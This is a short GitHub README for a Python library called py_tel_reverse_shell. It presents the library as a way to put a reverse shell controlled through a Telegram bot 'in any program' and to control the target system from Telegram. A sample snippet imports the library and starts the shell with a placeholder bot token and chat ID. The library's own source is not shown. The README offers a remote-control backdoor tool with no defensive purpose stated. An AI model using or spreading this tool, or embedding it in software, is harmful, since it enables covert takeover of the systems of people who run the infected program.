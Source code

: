 ## py_tel_reverse_shell 
### the reverse shell in your telgram!

# What is this?
This program is a Python library that you can use to put an inverted shell connected to Telegram in any program. And control the target system from within the telegram.

# How does it work?
Currently, this **Python library** cannot be installed using pip, but it can be used this way anyway.

```python 
# sample program
from py_tel_reverse_shell import tel_shell



## get token from @BotFather in telegram
my_token = "2018473XXXXXXXXXXXXXXXXXXXXX-3M"
## get your number id from @userinfobot in telegram
my_chat_id = "19XXXXX25"


tel_shell.start_shell(bot_token=my_token,chat_id=my_chat_id)
```
and over. You can easily put an inverted shell connected to Telegram in your program.